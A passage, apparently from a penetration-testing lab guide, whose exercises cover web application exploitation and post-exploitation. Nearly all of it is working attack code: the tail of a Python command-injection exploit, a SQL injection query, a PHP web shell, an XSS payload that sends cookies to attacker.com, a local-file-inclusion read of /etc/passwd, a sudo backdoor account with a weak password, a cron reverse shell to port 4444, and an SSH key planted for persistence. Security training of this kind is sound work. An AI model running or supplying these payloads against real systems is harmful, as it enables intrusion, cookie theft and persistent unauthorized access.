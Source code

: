 ```python
    }
    
    r = requests.post(f"{target}/ping.php", data=data)
    
    # Extract command output
    output = r.text.split('<pre>')[1].split('</pre>')[0]
    return output

# Usage
if len(sys.argv) != 3:
    print("Usage: exploit.py <target> <command>")
    sys.exit(1)

target = sys.argv[1]
command = sys.argv[2]

result = exploit_command_injection(target, command)
print(result)
```

### Exercise 4.3: Web Application Exploitation
```bash
# SQL Injection exploitation
# Manual extraction
curl "http://192.168.1.102/sqli.php?id=1' UNION SELECT 1,database(),3--"

# File upload exploitation
# Create PHP shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload and access
# http://192.168.1.102/uploads/shell.php?cmd=whoami

# XSS exploitation
# Steal cookies
<script>document.location='http://attacker.com/steal.php?c='+document.cookie</script>

# Local File Inclusion
curl "http://192.168.1.102/lfi.php?file=../../../../etc/passwd"
```

## Part 5: Post-Exploitation

### Exercise 5.1: Maintaining Access
```bash
# Create backdoor user
useradd -m -s /bin/bash backdoor
echo "backdoor:password123" | chpasswd
usermod -aG sudo backdoor

# Install persistence
# Cron job
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'" > /tmp/cron
crontab /tmp/cron

# SSH key
ssh-keygen -t rsa -N "" -f backdoor_key
cat backdoor_key.pub >> ~/.ssh/authorized_keys
```
